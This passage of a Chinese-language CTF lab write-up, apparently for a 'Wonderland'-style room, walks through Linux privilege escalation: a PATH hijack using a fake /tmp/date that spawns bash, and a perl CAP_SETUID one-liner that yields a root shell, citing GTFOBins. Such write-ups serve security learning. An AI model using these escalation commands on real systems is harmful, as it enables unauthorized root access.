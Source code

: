 运行 

```shell
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

 ![image-20230421231138472](https://gitee.com/leiye87/typora_picture/raw/master/20230421231139.png)

已知 teaParty 使用了date命令,环境变量劫持

```
#/tmp/date
echo "/bin/bash" >/tmp/date
chmod 777 date
export PATH=/tmp:$PATH
./teaParty
```

![image-20230421233850295](https://gitee.com/leiye87/typora_picture/raw/master/20230421233851.png)

hatter 用户目录下存在password 换成ssh

#### Root
>   `getcap -r / 2>/dev/null` 是一个 Linux 命令，用于列出整个文件系统中具有扩展属性（Extended Attributes）的文件和目录，并将错误输出重定向到 `/dev/null` 设备，以避免显示不必要的错误信息。

![image-20230421235947409](https://gitee.com/leiye87/typora_picture/raw/master/20230421235948.png)

```
 /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

GTOBins 提到了

[perl | GTFOBins](https://gtfobins.github.io/gtfobins/perl/#capabilities)

>   ## Capabilities
>
>   If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.
>
>   -   ```
>       cp $(which perl) .
>       sudo setcap cap_setuid+ep perl
>                       
>       ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
>       ```



### Overpass

#### user

nmap 22 80
